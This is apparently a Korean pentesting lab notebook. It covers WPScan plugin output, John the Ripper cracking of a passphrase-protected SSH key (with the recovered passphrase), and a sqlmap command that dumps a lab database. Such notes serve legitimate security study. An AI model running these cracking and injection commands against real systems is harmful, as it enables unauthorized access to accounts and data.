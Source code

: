 ```
 |  - http://192.168.50.244/wp-content/plugins/duplicator/readme.txt

[+] elementor
 | Location: http://192.168.50.244/wp-content/plugins/elementor/
 | Latest Version: 3.7.7 (up to date)
 | Last Updated: 2022-09-20T14:51:00.000Z
...

[+] wordpress-seo
 | Location: http://192.168.50.244/wp-content/plugins/wordpress-seo/
 | Latest Version: 19.7.1 (up to date)
 | Last Updated: 2022-09-20T14:10:00.000Z
...
```

# John

해쉬,비밀번호를 크랙킹하는데 필수 적인 툴

John안에는 다양한 버전들이 있다.

## ssh2john

ssh의 키에 비밀번호가 걸려있을 때 사용.

```
kali@kali:~/beyond/websrv1$ ssh -i id_rsa daniela@192.168.50.244
Enter passphrase for key 'id_rsa': #<-- 이렇게 비밀번호를 물어볼 떄

kali@kali:~/beyond/websrv1$ ssh2john id_rsa > ssh.hash

kali@kali:~/beyond/websrv1$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
...
tequieromucho    (id_rsa)    <<- ssh의 암호와는 다름. 개인키의 암호.
...
```

## 7z2john

7z 파일에 비밀번호가 걸려있을 때

## keepass2john

keepass데이터베이스 파일에 비밀번호가 걸려있을 때

# sqlmap

sql인젝션 공격할 때 블라인드 sql이라 시간이 오래걸리고 효율이 많이 떨어질 때 사용.

`sudo proxychains sqlmap --dump -u http://192.168.51.12/index.php --data="user=1&pass=1" --dbms="MySQL" --output-dir="/home/kali/sentaku"`
